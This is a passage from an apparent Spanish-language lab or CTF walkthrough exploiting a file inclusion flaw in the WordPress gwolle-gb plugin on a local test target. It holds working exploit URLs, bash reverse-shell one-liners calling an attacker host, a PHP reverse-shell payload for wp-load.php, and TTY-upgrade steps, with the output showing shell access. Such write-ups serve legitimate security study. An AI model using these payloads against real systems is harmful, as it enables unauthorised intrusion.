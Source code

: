 Acción:

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/&cmd=whoami
```

Acción

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/&cmd=bash -c "bash -i >&/dev/tcp/192.168.1.66/443 0>&1"
```

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/&cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.66/443 0>%261"
```

**Nota:** cambiamos los dos últimos `&` en formato URL para no generar conflicto *( & = %26)*

Alternativa: podemos directamente en el archivo wp-load.php cargar la *Shell Reverse*

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/TU_IP/PORT 0>&1'");
?>
```

Resultado: 

```Shell
<tml/wp-content/plugins/gwolle-gb/frontend/captcha$ whoami
whoami
www-data
<tml/wp-content/plugins/gwolle-gb/frontend/captcha$ hostname -I
hostname -I
172.18.0.3 
```

Explicación: escribimos el oneliner clásico para obtener una *Shell Reverse* mientras con *Netcat* estamos en escucha `nc -lvnp 443` 

## Paso 5 - TTY

Acción: tratamiento de la [TTY interactiva](../../Técnicas/Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md) para obtener una Shell mejorada

```Shell
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
stty rows 38 columns 183
export TERM=xterm
```

**Nota:** 
